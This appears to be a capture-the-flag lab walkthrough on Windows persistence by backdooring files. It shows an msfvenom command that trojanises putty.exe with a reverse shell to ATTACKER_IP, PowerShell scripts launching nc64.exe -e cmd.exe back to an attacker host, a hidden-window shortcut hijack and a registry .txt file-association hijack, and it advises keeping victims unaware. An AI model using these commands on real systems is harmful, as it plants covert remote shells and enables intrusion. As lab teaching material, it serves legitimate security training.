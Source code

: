 # Task 3 Backdooring Files
Another method of establishing persistence consists of tampering with some files we know the user interacts with regularly. By performing some modifications to such files, we can plant backdoors that will get executed whenever the user accesses them. Since we don't want to create any alerts that could blow our cover, the files we alter must keep working for the user as expected.

While there are many opportunities to plant backdoors, we will check the most commonly used ones.

## Executable Files

If you find any executable laying around the desktop, the chances are high that the user might use it frequently. Suppose we find a shortcut to PuTTY lying around. If we checked the shortcut's properties, we could see that it (usually) points to **`C:\Program Files\PuTTY\putty.exe`**. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

You can easily plant a payload of your preference in any .exe file with **`msfvenom`**. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command:

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. While this method is good enough to establish persistence, let's look at other sneakier techniques.

## Shortcut Files

If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.

For this task, let's check the shortcut to **`calc`** on the Administrator's desktop. If we right-click it and go to properties, we'll see where it is pointing:

|![image](https://github.com/user-attachments/assets/cb24a910-ee7f-451d-a111-627f998f9d63)|
|---|
|calc properties|

Before hijacking the shortcut's target, let's create a simple Powershell script in **`C:\Windows\System32`** or any other sneaky location. The script will execute a reverse shell and then run calc.exe from the original location on the shortcut's properties:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Finally, we'll change the shortcut to point to our script. Notice that the shortcut's icon might be automatically adjusted while doing so. Be sure to point the icon back to the original executable so that no visible changes appear to the user. We also want to run our script on a hidden window, for which we'll add the **`-windowstyle hidden`** option to Powershell. The final target of the shortcut would be:

```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

|![image](https://github.com/user-attachments/assets/a50cfe51-b0af-4e4b-8e3b-1d2c8964dff5)|
|---|
|backdoored lnk file|

Let's start an nc listener to receive our reverse shell on our attacker's machine:

```bash
🔴🟢🟡                        AttackBox
user@AttackBox$ nc -lvp 4445
```

If you double-click the shortcut, you should get a connection back to your attacker's machine. Meanwhile, the user will get a calculator just as expected by them. You will probably notice a command prompt flashing up and disappearing immediately on your screen. A regular user might not mind too much about that, hopefully. 

🏁🏁🏁 Execute C:\flags\flag5.exe from your reverse shell to get your flag! 🏁🏁🏁



## Hijacking File Associations

In addition to persisting through executables or shortcuts, we can hijack any file association to force the operating system to run a shell whenever the user opens a specific file type.

The default operating system file associations are kept inside the registry, where a key is stored for every single file type under **`HKLM\Software\Classes\`**. Let's say we want to check which program is used to open **`.txt files`**; we can just go and check for the .txt subkey and find which **Programmatic ID (ProgID)** is associated with it. A ProgID is simply an identifier to a program installed on the system. For .txt files, we will have the following ProgID:

|![image](https://github.com/user-attachments/assets/0ae66b69-a602-407e-b513-1c9bb5646d9d)|
|---|
|File extensions in registry|

We can then search for a subkey for the corresponding ProgID (also under **`HKLM\Software\Classes\`**), in this case, **`txtfile`**, where we will find a reference to the program in charge of handling .txt files. Most ProgID entries will have a subkey under **`shell\open\command`** where the default command to be run for files with that extension is specified:

|![image](https://github.com/user-attachments/assets/b5b85adc-694c-4fbf-95a4-5f8e8848a7f4)|
|---|
|ProgID in registry|

In this case, when you try to open a .txt file, the system will execute **`%SystemRoot%\system32\NOTEPAD.EXE %1`**, **`where %1`** represents the name of the opened file. If we want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens the file as usual. First, let's create a ps1 script with the following content and save it to C:\Windows\backdoor2.ps1:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Notice how in Powershell, we have to pass **`$args[0]`** to notepad, as it will contain the name of the file to be opened, as given through **` %1`**.

Now let's change the registry key to run our backdoor script in a hidden window:

|![image](https://github.com/user-attachments/assets/47a8611a-6303-403a-aff5-12d78ee4e064)|
|---|
|backdoored ProgID|

Finally, create a listener for your reverse shell and try to open any .txt file on the victim machine (create one if needed). You should receive a reverse shell with the privileges of the user opening the file.

🏁🏁🏁 Once you have backdoored the .txt file handler and spawned a reverse shell, run C:\flags\flag6.exe to get a flag! 🏁🏁🏁
